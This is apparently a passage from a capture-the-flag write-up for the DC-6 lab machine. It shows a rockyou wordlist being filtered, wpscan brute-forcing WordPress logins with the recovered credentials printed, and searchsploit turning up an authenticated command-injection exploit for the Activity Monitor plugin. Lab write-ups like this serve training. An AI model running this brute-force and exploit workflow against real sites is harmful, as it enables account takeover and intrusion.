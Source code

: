 ~~~
[+] Elapsed time: 00:00:09
~~~

### Brute force the Wordpress accounts

We had a hint from the challenge description regarding the password file to use:

~~~
kali@kali:/data/DC_6$ grep k01 /usr/share/wordlists/rockyou.txt > files/passwords.txt
~~~

Now, let's brute force the accounts:

~~~
kali@kali:/data/DC_6/files$ wpscan --url http://wordy/ -e u -P passwords.txt 

[REDACTED]

[+] Performing password attack on Xmlrpc against 5 user/s
[SUCCESS] - mark / helpdesk01                                                                                        
Trying jens / !lak019b Time: 00:02:44 <===============================        > (12547 / 15215) 82.46%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: mark, Password: helpdesk01

[REDACTED]
~~~

### Connect as mark

Now, let's connect as "mark" in Wordpress (http://wordy/wp-admin/). Mark is not an admin, which means that we won't be able to modify the templates, but there is an "Activity Monitor" plugin installed. Let's check if there are any exploits:

~~~
kali@kali:/data/DC_6$ searchsploit activity monitor
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Activity Monitor 2002 2.6 - Remote Denial of Service                               | windows/dos/22690.c
RedHat Linux 6.0/6.1/6.2 - 'pam_console' Monitor Activity After Logout             | linux/local/19900.c
WordPress Plugin Plainview Activity Monitor 20161228 - (Authenticated) Command Inj | php/webapps/45274.html
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
kali@kali:/data/DC_6$ searchsploit -m 45274
~~~
